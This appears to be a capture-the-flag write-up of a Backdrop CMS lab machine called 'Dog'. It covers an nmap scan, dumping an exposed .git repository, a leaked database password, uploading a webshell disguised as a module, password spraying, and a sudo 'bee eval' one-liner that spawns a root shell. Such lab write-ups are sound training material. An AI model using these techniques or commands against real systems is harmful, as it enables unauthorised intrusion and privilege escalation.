---
```
Scope:
10.10.11.58
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -T5 --min-rate=5000 -Pn dog.htb

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries 
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
| /user/password /user/login /user/logout /?q=admin /?q=comment/reply 
| /?q=filter/tips /?q=node/add /?q=search /?q=user/password 
|_/?q=user/register /?q=user/login /?q=user/logout
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I notice there's a `.git` repo found, let's check it out.

## git-dumper





Using `git log` I notice only 1 commit:



Within `settings.php` I find a set of creds:



```
root
BackDropJ2024DS2024
```

:::note
However *root* is not recognized as a username so it must be solely for `mysql`.
:::

### grep

In order to find the username amongst all the files I used:

```bash
grep -r dog.htb
```



This spat out the username, let's try it out.

## 80/TCP - HTTP



I got in with the combination of creds, let's check it out.

I notice a lot of user accounts:



I then found a way to add pages in **Home** -> **Add Content**:



I tried making a webshell out of a page:





Unfortunately this didn't work.

Instead I will try to upload it as a *theme*:



But I require an `.info` file:



I create my `webshell.info` file:

```php
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
```

And bundle it with the webshell:





Now I upload it:



I can find it here:




Let's get a foothold.

# Foothold
## Shell as www-data





I then check whether `mysql` is open:



It is, let's try to access it.

### mysql

I easily log in with the previous found creds:

```
root
BackDropJ2024DS2024
```







I went ahead and copied over *john* and *jobert*'s hashes since these had a higher priority.



:::note
Makes sense since **Backdrop CMS** is based on **Drupal**.
:::



### hash cracking - FAIL



This went on for way too long so I tried out `john` but that didn't give any result either:



I then just tried to password spray the previous found pass and it worked!


### user.txt





# Privilege Escalation
## Bee binary

I went ahead and tried the binary to see what it does and found this:



I can thus use the following command:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash -p");'
```



And now I'm *root*.

### root.txt





---